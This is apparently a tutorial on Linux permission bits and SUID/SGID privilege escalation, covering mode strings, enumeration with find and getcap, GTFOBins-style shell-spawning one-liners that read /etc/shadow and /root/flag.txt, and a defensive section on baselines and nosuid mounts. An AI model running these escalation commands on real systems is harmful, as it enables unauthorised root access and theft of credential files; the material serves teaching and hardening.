

Permission bits look simple until you are staring at `-rwsr-xr-x` on a binary
you do not recognise, one directory away from a root shell. This note covers the
mechanics, the enumeration, and the defensive fix.

## The mode string, decoded

```console
$ ls -l /usr/bin/passwd /etc/shadow /tmp
-rwsr-xr-x 1 root root  68208 Jul 14 03:11 /usr/bin/passwd
-rw-r----- 1 root shadow  1331 Oct  5 09:02 /etc/shadow
drwxrwxrwt 12 root root   4096 Oct  7 08:40 /tmp
```

Read as four groups: file type, owner, group, other.

| Position | Meaning |
| --- | --- |
| `-` / `d` / `l` | regular file, directory, symlink |
| `r` `w` `x` in owner slot | root may read, write, execute |
| `r` `x` in group slot | members of `shadow` read; no write |
| `-` in other slot | everybody else: no access at all |
| `s` where owner `x` was | **SUID**: runs with the owner's privileges |
| `s` where group `x` was | **SGID**: runs with the group's privileges |
| `t` in other slot | **sticky bit**: only owners may delete inside (`/tmp`) |

The same thing in octal:

```bash
chmod 4755 /path/to/file   # SUID  + rwxr-xr-x
chmod 2775 /path/to/dir    # SGID  + rwxrwxr-x
chmod 1777 /tmp            # sticky + rwxrwxrwx
```

The leading digit is where people get lost: `4` = SUID, `2` = SGID, `1` =
sticky. `4755` is `0755` plus SUID; it is not a four-digit password.

## Why SUID is the interesting one

A SUID binary executes with the privileges of its owner regardless of who runs
it. `/usr/bin/passwd` is *supposed* to be SUID root — that is how an unprivileged
user updates their own entry in `/etc/shadow`. The whole security model rests on
`passwd` dropping privileges and doing exactly one thing.

The escalation question is therefore not "is there a SUID binary?" — there
always are — but "does this SUID binary do something the caller controls, as
root?"



## Enumerating SUID and SGID files

```bash
# Every SUID binary on the box.
find / -type f -perm -4000 -ls 2>/dev/null

# SGID as well.
find / -type f \( -perm -4000 -o -perm -2000 \) -ls 2>/dev/null

# A faster, quieter alternative when find is noisy.
sudo -l 2>/dev/null; getcap -r / 2>/dev/null
```

`getcap` matters too: file capabilities such as `cap_setuid+ep` grant a
privileged subset, and automation that only greps for SUID misses them entirely.

> [!NOTE]
> GTFOBins is the canonical reference for "this standard binary plus this flag
> equals a shell". Use it to confirm a finding, not to enumerate — enumerate from
> your own `find` output so the note records what this host actually has.

## Reading the GTFOBins pattern without the site

The recurring shapes are worth learning because they generalise:

```bash
# A binary that can spawn an interactive interpreter or shell.
/usr/bin/find . -exec /bin/sh -p -c 'id; cat /root/flag.txt' \;

# An interpreter run via a SUID wrapper keeps the effective UID.
python3 -c 'import os; os.setuid(0); os.system("/bin/bash -p")'

# A reader paired with an arbitrary-file read.
/usr/bin/less /etc/shadow
```

The single most common mistake in practice is running the shell *without* `-p`:
bash drops privileges when the real and effective UIDs differ, and you get a
perfectly ordinary user shell that makes you think the exploit failed.

```console
$ find . -exec /bin/sh -c 'id' \;
uid=1000(dev) gid=1000(dev)          # dropped privileges, misleading
$ find . -exec /bin/sh -p -c 'id' \;
uid=1000(dev) gid=1000(dev) euid=0(root)   # -p kept the effective UID
```

## Escalation mindset

1. Get a stable shell first. Every early attempt happens in a five-second
   reverse shell unless you make it stable.
2. Enumerate broadly before exploiting narrowly: `sudo -l`, cron, writable
   service files, writable `PATH` entries, capabilities, and SUID.
3. Prefer the finding with the least noise. Overwriting a SUID binary works, but
   it is destructive and obvious.
4. Take a snapshot of the host state before and after. Evidence beats memory.

> [!WARNING]
> Never run an escalation technique outside the scope you were given. A local
> privilege escalation on a production host is an availability incident even
> when it succeeds quietly.

## Defensive side: what to check and fix

```bash
# Weekly diff of the SUID set against a known-good baseline.
find / -xdev -type f -perm -4000 -printf '%p %u:%g %m\n' 2>/dev/null | sort > /var/lib/baseline/suid-now.txt
diff -u /var/lib/baseline/suid-known.txt /var/lib/baseline/suid-now.txt
```

- Remove SUID from anything that does not need it: `chmod u-s <file>`.
- Prefer capabilities over full SUID where possible, and prefer neither when an
  unprivileged alternative exists.
- Mount user-writable areas `nosuid`: `mount -o remount,nosuid /home`.
- Watch for SUID binaries in `/tmp`, `/home`, `/opt`, or anywhere world-writable.
  On a well-run host that list is empty, which is exactly why it is easy to
  monitor.
- Alert on newly created SUID files, not just on missing ones. Creation is the
  attacker's direction of travel.

## References

- [man 7 capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html)
- [GTFOBins](https://gtfobins.github.io/)
- [CIS Benchmarks — Linux](https://www.cisecurity.org/cis-benchmarks)
